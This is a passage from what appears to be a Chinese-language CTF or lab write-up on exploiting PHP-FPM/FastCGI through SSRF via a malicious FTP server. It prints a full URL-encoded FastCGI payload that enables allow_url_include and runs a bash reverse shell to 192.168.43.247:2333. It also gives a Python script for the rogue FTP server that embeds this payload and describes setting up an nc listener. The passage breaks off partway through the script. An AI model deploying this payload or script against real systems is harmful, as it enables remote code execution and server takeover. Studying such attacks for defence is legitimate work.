 得到 payload，而我们需要的是上面 payload 中 `_` 后面的数据部分，即：

```bash
%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH106%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00j%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.43.247/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

在攻击机上设置好 nc 监听：

[![](assets/1698897074-3c5abe5fdb9ca79d64ec41d3d6e70ee1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134743-9223f966-b2e5-1.png)

然后编写如下脚本（脚本是从网上扒的，谁叫我菜呢，大佬勿喷~~），在攻击机上搭建一个恶意的 ftp 服务，并将上面的 payload 中的数据替换掉下面 ftp 脚本中的 payload 的内容：

```bash
# -*- coding: utf-8 -*-
# @Time    : 2021/1/13 6:56 下午
# @Author  : tntaxin
# @File    : ftp_redirect.py
# @Software:

import socket
from urllib.parse import unquote

# 对 gopherus 生成的 payload 进行一次 urldecode
payload = unquote("%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH106%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00j%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.43.247/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00")
payload = payload.encode('utf-8')

host = '0.0.0.0'
port = 23
sk = socket.socket()
sk.bind((host, port))
sk.listen(5)

# ftp 被动模式的 passvie port，监听到 1234
sk2 = socket.socket()
sk2.bind((host, 1234))
sk2.listen()

# 计数器，用于区分是第几次 ftp 连接
count = 1
while 1:
    conn, address = sk.accept()
    conn.send(b"200 \n")
    print(conn.recv(20))  # USER aaa\r\n  客户端传来用户名
    if count == 1:
        conn.send(b"220 ready\n")
    else:
        conn.send(b"200 ready\n")

    print(conn.recv(20))   # TYPE I\r\n  客户端告诉服务端以什么格式传输数据，TYPE I表示二进制， TYPE A表示文本
```